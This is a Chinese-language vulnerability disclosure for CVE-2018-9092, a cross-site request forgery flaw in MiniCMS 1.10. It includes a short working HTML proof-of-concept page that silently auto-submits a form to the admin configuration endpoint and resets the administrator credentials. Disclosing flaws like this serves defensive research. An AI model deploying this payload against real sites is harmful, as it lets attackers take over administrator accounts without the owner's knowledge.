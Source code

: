 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|MiniCMS 1.10存在CSRF漏洞可增加管理员账户|2018-03-30|zixian（me@zixian.org、zixian@5ecurity.cn）|[https://github.com/bg5sbk/MiniCMS](https://github.com/bg5sbk/MiniCMS) | [https://github.com/bg5sbk/MiniCMS](https://github.com/bg5sbk/MiniCMS) |1.10| [CVE-2018-9092](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9092)|  

#### 漏洞概述  

> MiniCMS 1.10存在CSRF漏洞，当管理员登陆后访问下面CSRF测试页面可增加管理员账户。MiniCMS是一个在github上开源的CMS系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/bg5sbk/MiniCMS/issues/14)告知作者。  

### POC实现代码如下：  

> CSRF测试页面代码如下：
``` html
<html>
 <head><meta http-equiv="Content-Type" content="text/html; charset=GB2312">
 <title>test</title>
 <body>
 <form action="http://127.0.0.1/minicms/mc-admin/conf.php" method="post">
 <input type="hidden" name="site_name" value="hack123" />  
 <input type="hidden" name="site_desc" value="hacktest" />  
 <input type="hidden" name="site_link" value="http://127.0.0.1/minicms" />  
 <input type="hidden" name="user_nick" value="hack" />  
 <input type="hidden" name="user_name" value="admin" />  
 <input type="hidden" name="user_pass" value="hackpass" />  
 <input type="hidden" name="comment_code" value="" />  
 <input type="hidden" name="save" value=" " /> 
 </form>
 <script>
  document.forms[0].submit();
 </script>
 </body>
 </head>
 </html>
 ```